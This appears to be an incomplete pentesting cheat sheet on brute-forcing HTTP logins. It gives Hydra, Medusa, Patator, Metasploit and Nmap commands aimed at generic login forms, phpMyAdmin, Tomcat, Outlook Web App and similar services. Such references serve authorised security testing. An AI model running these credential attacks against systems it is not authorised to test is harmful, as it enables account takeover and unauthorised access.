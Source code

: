 # HTTP

## 01 - Manual

TODO: Check out the references related to **Default HTTP Login Hunter** script

## 02 - Hydra

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

### 2.1 - HTTP\[s\]-HEAD

`$ hydra -U http[s]-head`

### 2.2 - HTTP\[s\]-GET

`$ hydra -U http[s]-get`

### 2.3 - HTTP\[s\]-POST

`$ hydra -U http[s]-post`

### 2.4 - HTTP\[s\]-GET-FORM

`$ hydra -U http[s]-get-form`

### 2.5 - HTTP\[s\]-POST-FORM

`$ hydra -U http[s]-post-form`

`$ hydra http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>`

`$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:F=<form name='login'" -vV -f <IP>`

- PHPMyAdmin Panel

`$ hydra -L users.lst -P passwords.lst http-form-post "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server" -vV -f <IP>`

### 2.6 - HTTP-PROXY

`$ hydra -U http-proxy`

### 2.6 - HTTP-PROXY-URLEnum

`$ hydra -U http-proxy-urlenum`

## 03 - Medusa

- HTTP login popup form

`$ medusa -h <IP> -u <username> -P password.lst -M http -m DIR:/<URL_path>`

## 04 - Patator

TODO: Provide more examples

`$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'`

## 05 - Metasploit

TODO: Finish this information

Regular http login form

`msf > use auxiliary/scanner/http/http_login`

- PhpMyAdmin

`msf > use auxiliary/scanner/http/phpmyadmin_login`

- Apache Tomcat

`msf > use auxiliary/scanner/http/tomcat_mgr_login`

- Glassfish

`msf > use auxiliary/scanner/http/glassfish_login`

- Outlook Web App

`msf > use auxiliary/scanner/http/owa_login`

- Buffalo

`msf > use auxiliary/scanner/http/buffalo_login`

## 06 - Nmap

TODO: Fill in this information

`$ nmap -p 80,443 --script http-brute <IP>`

`$ nmap --script http-proxy-brute`

`$ nmap --script form-brute`

`$ nmap --script http-frontpage-login`

---
## References

- [Default HTTP Login Hunter](https://github.com/InfosecMatter/default-http-login-hunter)

- [Default Password Scanner Default HTTP Login Hunter](https://www.infosecmatter.com/default-password-scanner-default-http-login-hunter-sh/)

- [NNdefaccts](https://github.com/nnposter/nndefaccts)

- [How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)